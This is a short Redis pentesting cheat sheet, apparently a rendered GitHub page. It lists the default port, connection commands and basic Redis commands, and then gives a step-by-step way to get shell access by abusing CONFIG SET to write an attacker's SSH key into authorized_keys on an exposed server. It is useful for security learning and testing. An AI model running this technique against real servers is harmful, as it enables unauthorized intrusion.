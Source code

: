 # Redis
Redis is an in-memory database that is super fast.

## Port
6379

## Connecting
```bash
redis-cli -h <IP> -p <Port>
```
A one-liner to execute a command at the same time as connecting.
```bash
redis-cli -h <IP> -x <Command>
```

## Basic Commands
```bash
keys * # Displays all keys.
get <Key>; # Retrieves the value of a string key.
set <Key> <Value> # Sets the value of a string key.
hgetall <Key> # Retrieves all fields and values of a hash key.
info # Shows server information and statistics.
```

## Obtain a shell using `CONFIG SET`
An attacker can obtain a shell by abusing the CONFIG SET command — for example, by causing the server to write the attacker’s public SSH key into a target user’s authorized_keys, and then logging in over SSH with the matching private key.
```bash
# Connecting to Redis
redis-cli -h <IP> -p 6379
redis> CONFIG GET dir
redis> CONFIG SET dir /var/lib/redis/.ssh

# Back to bash
(sudo echo -e '\n'; cat .ssh/id_rsa.pub; echo -e '\n') > pub_key.txt
cat pub_key.txt | redis-cli -h <IP> -x set ssh_key

# Connecting to Redis
redis-cli -h <IP> -p 6379
redis> CONFIG SET dbfilename authorized_keys
redis> save

# SSH
ssh redis@<IP>
```

## Reference
[Redis Cheat Sheet](https://redis.io/learn/howtos/quick-start/cheat-sheet)
[CVE-2021-21309](https://nvd.nist.gov/vuln/detail/cve-2021-21309)
[Redis 4.0.9 PoC](https://gist.github.com/ziednamouchi/d9b57abc1834d7ce3cf43d4d74479baa)
